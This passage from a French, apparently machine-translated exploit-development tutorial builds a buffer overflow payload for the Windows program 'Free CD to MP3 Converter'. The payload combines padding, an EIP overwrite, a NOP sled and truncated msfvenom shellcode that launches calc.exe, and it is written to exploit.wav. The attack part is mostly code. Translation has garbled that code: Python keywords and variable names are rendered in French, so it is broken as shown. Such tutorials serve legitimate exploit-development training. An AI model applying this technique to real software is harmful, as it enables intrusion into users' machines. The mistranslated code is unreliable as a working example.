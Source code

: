 * * * * *

Écriture de la charge utile dans un fichier
------------------------

Avec cela, notre charge utile finale devrait ressembler à ceci :

Code : python

```
     décalage = 4112
     tampon = b"A"*décalage
     eip = pack('<L', 0x00419D0B)
     non = b"\x90"*32
     charge utile = tampon + eip + nop + buf

```

Nous pouvons ensuite écrire `payload` dans un fichier `exploit.wav` , comme nous l'avons fait dans les fonctions précédentes :

Code : python

```
     avec open('exploit.wav', 'wb') comme f :
         f.write(charge utile)

```

Une fois que nous avons assemblé toutes ces parties, notre fonction `exploit()` finale devrait ressembler à ceci :

Code : python

```
def exploit() :
     # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'
     buf = b""
     ...COUPER...
     buf += b"\xfd\x2c\x39\x51\x60\xbf\xa1\xb8\x07\x47\x43\xc5"

     décalage = 4112
     tampon = b"A"*décalage
     eip = pack('<L', 0x00419D0B)
     non = b"\x90"*32
     charge utile = tampon + eip + nop + buf

     avec open('exploit.wav', 'wb') comme f :
         f.write(charge utile)

exploiter()

```

Nous pouvons maintenant exécuter notre code avec `F5` dans `IDLE` pour générer le fichier `exploit.wav` . Une fois que c'est fait, nous pouvons exécuter le programme `Free CD to MP3 Converter` (nous n'avons pas besoin de l'exécuter dans `x32dbg`) et y charger notre fichier :
